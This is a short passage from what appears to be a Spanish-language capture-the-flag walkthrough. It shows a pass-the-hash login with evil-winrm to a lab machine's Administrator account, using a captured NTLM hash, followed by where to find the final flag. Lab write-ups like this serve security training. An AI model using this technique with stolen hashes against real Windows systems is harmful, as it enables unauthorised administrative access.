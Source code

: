 - Usamos este hash `NTLM` para acceder via Winrm como el usuario "Administrator":

```bash
$evil-winrm -i 10.129.165.120 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
```

- Seremos `Administrator` y podremos encontrar la última flag en el directorio `"C:\Users\Administrator\Documents> cd /Users/Administrator/Desktop"`

